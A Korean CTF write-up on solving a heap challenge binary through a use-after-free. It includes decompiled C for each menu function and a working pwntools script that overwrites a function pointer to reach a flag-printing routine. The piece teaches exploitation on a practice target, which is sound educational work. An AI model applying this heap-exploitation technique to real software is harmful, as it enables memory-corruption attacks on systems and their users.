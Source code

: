 사이버가디언즈 멘토님께서 heap 관련 문제를 주셔서 풀어보았습니다. UAF로 풀 수 있었습니다.
* * *
```
1. Make bullet
2. Drop bullet
3. Make gun
4. Challenge monster
5. exit
```
우선 메뉴 구성은 위와 같이 되어있으며 ./flag를 출력하는 함수인 sub_400cd4가 존재합니다.

### 1. Make Bullet
```c
int sub_40099B()
{
  int result; // eax
  int v1; // [rsp+Ch] [rbp-4h]

  result = sub_40095A();
  v1 = result;
  if ( result != -1 )
  {
    ptr[result] = malloc(0x20uLL);
    if ( ptr[v1] )
    {
      dword_6020D0[v1] = 1;
      printf("Please name the bullet >> ");
      read(0, ptr[v1], 0x1FuLL);
      result = puts("Done!");
    }
    else
    {
      result = puts("Failed!");
    }
  }
  return result;
}
```
chunk의 크기는 0x20으로 고정되어있고 name을 지정할 수 있습니다. 또한 bullet이 생성되었다는 의미로 0x6020d0[index]에 1을 저장합니다.

name에서는 0x1f만큼 입력을 받기에 heap overflow가 발생하지는 않습니다.

### 2. Drop bullet
```c
unsigned __int64 sub_400AB7()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  sub_400A40();
  printf("Choice the bullet to drop >> ");
  __isoc99_scanf("%u", &v1);
  if ( v1 > 6 )
  {
    puts("Out of bound!");
    exit(0);
  }
  if ( ptr[v1] )
  {
    free(ptr[v1]);
    dword_6020D0[v1] = 0;
    puts("Done!");
  }
  else
  {
    puts("Already empty!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```
bullet은 최대 5개까지 생성할 수 있으며 free는 일반적으로 진행됩니다.

### 3. Make gun
```c
int sub_400BAC()
{
  if ( qword_6020C0 )
    return puts("You already have gun!");
  qword_6020C0 = malloc(0x20uLL);
  memset(qword_6020C0, 0, 0x20uLL);
  *(_QWORD *)qword_6020C0 = sub_400B7D;
  return puts("Done!");
}
```
이 바이너리에서 흥미로웠던 부분입니다. 0x6020c0에 malloc(0x20)을 진행한 뒤 malloc된 위치에 sub_400b7d의 포인터를 저장합니다.

여기서 눈여겨보아야 할 점은 malloc된 크기가 bullet과 같다는 점입니다.

### 4. Challenge monster
```c
void __noreturn sub_400C0D()
{
  unsigned int (__fastcall *v0)(_QWORD); // ST08_8
  unsigned int v1; // [rsp+0h] [rbp-10h]
  signed int i; // [rsp+4h] [rbp-Ch]

  if ( !qword_6020C0 )
  {
    puts("You don't have gun!");
    exit(1);
  }
  v1 = 0;
  for ( i = 0; i <= 5; ++i )
  {
    if ( dword_6020D0[i] == 1 )
      ++v1;
  }
  v0 = *(unsigned int (__fastcall **)(_QWORD))qword_6020C0;
  sub_400CA5();
  if ( v0(v1) == 100 )
    sub_400CD4();
  sub_400D6A();
}
```
gun이 생성되었는지 체크한 뒤, bullet의 개수를 셉니다. 그 후 v0에 *0x6020c0 = sub_400b7d(bullet 개수 return하는 함수)를 집어넣습니다.

v0(v1) == 100이라는 조건으로 bullet이 100개라면 flag를 출력하는 함수 sub_400cd4를 실행합니다.

## Exploit

exploit은 bullet과 gun의 크기가 같아 bullet을 free하고 gun을 만들시 first fit에 의해,

free된 bullet의 위치에 gun이 할당된 다는 점에서 시작됩니다. 이때 bullet의 name에 ./flag를 출력하는 함수의 포인터를 쓴다면

challenge monster시 *0x6020c0은 bullet의 name을 가르키게 되어 v0(v1);에 의해 플래그를 출력하게 됩니다.

exp.py
```python
from pwn import *

#p = remote('zzado.kr', 9001)
p = process('./zzado_heap1')

def bullet(payload):
	p.recvuntil('>> ')
	p.sendline('1')
	p.recvuntil('>> ')
	p.sendline(payload)

def drop(idx):
	p.recvuntil('>> ')
	p.sendline('2')
	p.recvuntil('>> ')
	p.sendline(str(idx))

def gun():
	p.recvuntil('>> ')
	p.sendline('3')

def challenge():
	p.recvuntil('>> ')
	p.sendline('4')

payload = 0x400cd4

bullet("AAA")
drop(0)
gun()
drop(0)
bullet(p64(payload))

challenge()
print p.recv()
```

